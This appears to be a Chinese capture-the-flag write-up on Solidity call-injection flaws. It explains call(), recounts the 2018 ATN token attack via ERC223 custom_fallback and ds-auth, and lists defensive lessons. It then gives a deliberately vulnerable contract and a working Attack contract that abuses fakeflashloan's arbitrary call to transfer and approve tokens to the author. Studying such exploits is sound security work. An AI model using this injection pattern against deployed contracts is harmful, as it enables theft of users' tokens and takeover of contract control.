






# Call注入漏洞刷题实践
---

     author：甘赞栩
## 写在前面
写本文是为了总结一下博主在这两天中做一个靶场题目时遇到的一些问题，以及对call注入的一些见解。

## Call函数
首先我们先了解一下call函数：<br/>
合约之间的调用有2种方式： 底层的call方式和 new 合约的方式<br/>
solidity 提供了 call()、delegatecall()、callcode() 三个函数来实现合约直接的调用及交互，这些函数的滥用导致了各种安全风险和漏洞。在使用第二种方式时，如果处理不当很可能产生致命的漏洞 —— 跨合约调用漏洞，主要就是 call() 注入函数导致的.

call() 函数对某个合约或者本地合约的某个方法的调用方式：
* `<address>.call(方法选择器,arg1,arg2,...)`
* `<address>.call(bytes)`
>综上  合约之间的调用建议的方式是：通过new 合约，通过合约的方式去调用，而不是通过call的方式去调用，因为这样会失去控制权。<br/>
## 案例分析
接下来我们通过一个call注入攻击的案例来更深入的了解一下call函数:
>2018年5月11日中午，ATN技术人员收到异常监控报告，显示ATN Token供应量出现异常，迅速介入后发现Token合约由于存在漏洞受到攻击。

ATN Token合约采用的是在传统ERC20Token合约基础上的扩展版本ERC223，并在其中使用了 dapphub/ds-auth 库。
单独使用 ERC223 或者 ds-auth 库时，并没有什么问题，但是两者结合时，黑客利用了回调函数回调了setOwner方法，从而获得高级权限。<br/>
ERC223转账代码如下：

黑客转账时在方法中输入了以下参数成功实现了攻击：

该交易执行的时候 receiver 会被 _to(ATN合约地址) 赋值， ATN 合约会调用 _custom_fallback 即 DSAuth 中的 setOwner(adddress) 方法，而此时的 msg.sender 变为 ATN 合约地址，owner_参数为_from(黑客地址)。<br/>
ds-auth库中setOwner 代码如下：

在执行 `setOwner` 时会先验证 auth 合法性，而此时！ msg.sender 就是ATN的合约地址，因此完美的避开了auth的检查。setOwner 的 modifier auth 代码：


>总的来说
1. Call函数自由度过大，应谨慎使用作为底层函数，对于一些敏感操作或者权限判断函数，则不要轻易将合约自身的账户地址作为可信的地址。
2. 调用的函数应该做严格的限制，避开调用任意函数的隐患
3. 用到类似ERC223推荐实现的custom_fallback和ds-auth的合约，或者说内置有其他权限控制得合约的以太坊Token，很可能也存在这个call的注入问题

## 漏洞分析：
通过以上的介绍，想必大家对call函数以及其漏洞已经有了自己的理解。<br/>
call函数出现在底层合约中需要格外重视，如非必要最好不要用，用new代替。<br/>
call注入的主要攻击思路：
>由于call参数类型不限，这给了参数很大的自由度，黑客可以通过构造参数去调用与此合约相关联的所有方法，并且在调用时msg.sender的值会变为合约的地址，这可能会绕过关键函数的一些判断条件，从而使黑客通过"冒名调用"获得利益。

## 靶场题目：
说了这么多，让我们回到问题的起点：
漏洞源码如下：
```
pragma solidity ^0.4.19;
contract Vuln{
    address public owner;
    string public name     = "Chain";
    string public symbol   = "CHA";
    uint8  public decimals = 18;
    uint public totalSupply=10000000000;
    bool  public isLoan=false;
    bool public solved;
    event  Approval(address indexed from, address indexed to, uint number);
    event  Transfer(address indexed from, address indexed to, uint number);
    event  Deposit(address indexed to, uint number);
    event  Withdrawal(address indexed from, uint number);

    mapping (address => uint)                       public  balanceOf;
    mapping (address => mapping (address => uint))  public  allowance;
    constructor() public{
        owner=msg.sender;
        balanceOf[owner]=totalSupply/2;
        balanceOf[address(this)]=totalSupply/2;
    }


    function withdraw(uint number) public {
        require(balanceOf[msg.sender] >= number);
        balanceOf[msg.sender] -= number;
        (msg.sender).transfer(number);
        emit Withdrawal(msg.sender, number);
    }


    function approve(address to, uint number) public returns (bool) {
        allowance[msg.sender][to] = number;
        emit Approval(msg.sender, to, number);
        return true;
    }

    function transfer(address _to, uint _value) public returns (bool) {
        require(balanceOf[msg.sender] - _value >= 0);
        balanceOf[msg.sender] -= _value;
        balanceOf[_to] += _value;
    return true;
    }

    function fakeflashloan(uint256 value,address target,bytes memory data) public{
        require(isLoan==false&&value>=0&&value<=1000);
        balanceOf[address(this)]-=value;
        balanceOf[target]+=value;

        address(target).call(data);

        isLoan=true;
        require(balanceOf[target]>=value);
        balanceOf[address(this)]+=value;
        balanceOf[target]-=value;
        isLoan=false;
    }

    function transferFrom(address from, address to, uint number)
        public
        returns (bool)
    {
        require(balanceOf[from] >= number);

        if (from != msg.sender && allowance[from][msg.sender] != 2**256-1) {
            require(allowance[from][msg.sender] >= number);
            allowance[from][msg.sender] -= number;
        }

        balanceOf[from] -= number;
        balanceOf[to] += number;

        emit Transfer(from, to, number);

        return true;
    }
    function isSolved() public returns(bool){
        return solved;
    }

    function complete() public {

        require(balanceOf[msg.sender]>10000);
        require(allowance[address(this)][msg.sender]>10000);
        solved=true;

    }
}
```
**拿到flag的要求是使isSolved()返回true**
读完源码后，发现题目要我们通过攻击达成`complete()`函数里的两个限制条件:
```
 function complete() public {

        require(balanceOf[msg.sender]>10000);
        require(allowance[address(this)][msg.sender]>10000);
        solved=true;

 }
```
即是让我们利用漏洞从合约成功盗取10000以上的token<br/>
让我们把视线放到`fakeflashloan()`这个奇怪的函数上，可以注意到这个函数并没有很苛刻的“准入条件”，让我们可以很轻松的执行到里面的call方法：
```
function fakeflashloan(uint256 value,address target,bytes memory data) public{
        require(isLoan==false&&value>=0&&value<=1000);
        balanceOf[address(this)]-=value;
        balanceOf[target]+=value;

        address(target).call(data);

        isLoan=true;
        require(balanceOf[target]>=value);
        balanceOf[address(this)]+=value;
        balanceOf[target]-=value;
        isLoan=false;
    }
```
而call后面跟的参数是bytes类型的data,这就给了我们很大的操作空间。此时我至少想到了两种拿到flag的方式，一种是通过call注入调用transfer和approve函数给我自己转账，实现盗币后执行`complete()`方法。另一种方式比较投机取巧，通过call注入调用approve函数，`_to`填合约地址，这样allowance就记录了一个合约自己给自己的一笔token的approve，同样可以绕开complete的两个限制条件拿到flag<br/>
但是我觉得题目的初衷应该是要我们完成盗币攻击，于是将其实现，攻击合约如下：
```
pragma solidity ^0.4.19;

import"./Vuln.sol";

contract Attack{

    Vuln cont;
    
    constructor(address _adr){
        cont = Vuln(_adr);
    }

    function attack() public {
        bytes memory byt;
        bytes memory byt2;
        address adr=0x100200fF289D4dA0634fF36d7f5D96524f7EFf67;//我的账户地址
        byt  =  abi.encodePacked(bytes4(keccak256("transfer(address,uint256)")),bytes32(adr),bytes32(10001));
        byt2 =  abi.encodePacked(bytes4(keccak256("approve(address,uint256)")),bytes32(adr),bytes32(10001));
        cont.fakeflashloan(1000,address(cont),byt);//transfer 10001个token给我
        cont.fakeflashloan(1000,address(cont),byt2);//approve 10001个token的approve给我
    }

}
```
注意：原题中用到了solidity7.0版本的编译环境，在新版的solidity中攻击合约中`bytes32(adr),bytes32(10001)`的语法是不被允许的,所以我直接选择了用更低版本的暂时替代。
>PS：有关新版本的写法我会在后续更新

在这里我们通过调用`fakeflashloan()`这个问题函数，构造了`byt`和`byt2`这样的bytes去实现call注入的函数调用。

构造这个bytes占了我解题时常的90％，一直攻击无效，因为这个靶场测试网没办法debug,给我带来了很多困难。最终我选择脱离靶场的测试网环境，在本地进行测试。<br/>
有关bytes的构造大家可以参考[solidity的abi参考文档](https://learnblockchain.cn/docs/solidity/abi-spec.html?highlight=abi)

# 攻击效果：
夺旗：

合约被攻击后：

